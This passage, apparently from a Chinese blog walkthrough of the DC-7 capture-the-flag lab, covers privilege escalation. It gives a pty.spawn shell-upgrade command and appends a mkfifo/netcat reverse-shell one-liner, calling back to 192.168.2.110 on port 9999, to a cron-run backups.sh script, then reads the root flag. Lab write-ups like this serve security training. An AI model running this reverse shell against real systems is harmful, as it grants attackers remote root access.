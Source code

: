 ```javascript
交互式shell命令：python -c 'import pty;pty.spawn("/bin/bash")'
```

![39](https://havocykp.github.io/assets/images/img_blog9/39.png)



提权

在 dc7user 用户下发现的 backups.sh 文件这里就可以用到了

重新监听 *9999端口（任意），等待反弹*

在 /opt/scripts/ 目录下输入如下命令：

```javascript
命令：www-data@dc-7:/opt/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.2.110 9999 > /tmp/f" >> backups.sh
```

![40](https://havocykp.github.io/assets/images/img_blog9/40.png)

查看写入的内容

![41](https://havocykp.github.io/assets/images/img_blog9/41.png)

backups.sh文件大约每15分钟执行一次，耐心等待反弹

最终在 /root/theflag.txt 找到

![42](https://havocykp.github.io/assets/images/img_blog9/42.png)
